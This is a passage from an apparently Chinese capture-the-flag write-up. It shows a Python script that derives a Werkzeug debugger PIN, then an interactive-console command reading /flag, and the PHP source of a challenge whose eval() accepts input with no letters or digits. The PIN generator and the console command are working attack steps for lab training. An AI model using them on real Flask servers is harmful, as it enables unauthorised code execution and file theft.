 ```python
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

然后得到一个可交互的：

```
import os
os.popen('cat /flag').read()
```

![](https://s2.loli.net/2022/03/22/cFGjSJgoa8NnOA4.png)





## 802-无子母数字RCE

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

error_reporting(0);
highlight_file(__FILE__);
$cmd = $_POST['cmd'];

if(!preg_match('/[a-z]|[0-9]/i',$cmd)){
    eval($cmd);
}
```
